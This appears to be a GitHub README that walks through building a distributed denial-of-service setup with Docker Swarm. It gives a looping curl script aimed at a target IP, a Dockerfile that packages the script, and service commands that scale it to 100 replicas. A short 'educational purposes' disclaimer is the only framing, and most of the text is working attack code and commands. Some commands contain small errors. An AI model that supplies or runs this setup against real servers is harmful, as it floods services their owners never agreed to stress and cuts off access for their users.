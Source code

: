 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Creating and Scaling a Service


### Installing Docker
If you have this part already complete feel free to move on to the next, otherwise here is a link that you could follow in order to get this part started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
>Following is done through iTerm or a Terminal
>I personally use vim for this, but any way would really do.
>$ vim curlAttack.sh
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to a different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
- [x] Setting up Dockerfile

### Creating a Custom Docker Image Through Dockerfile

Now that dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
Check if it was succesfull by running
 ```
 $ docker images
 ```
 
 If you can find your image with the tag 'dockerfile' then we're good to go to the next step.
 
 - [x] Creating a Custom Docker Image
 
### Creating and Scaling a Service

So to start of here are useful commands to know, all of these start with: **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale number of copies of the service.  |
| rm \<serviceName> | Ends service with the given name.  |
| ls | Lets you see running services and number of copies that are currently up. |

Here's an example that sets up the image, creates a service, scales it then ends it.
```
$ docker build -t <imageName>:dockerfile .
$ docker service create --name <serviceName> --detach=false <imageName>:dockerfile
$ docker service scale <servicename>=100
$ docker service rm done
```

Also you if you'll be repeating these often, I'd reccomend adding these as aliases for these.

- [x] Creating and Scaling a Service


### This is the end of tutorial, hope you found it useful.

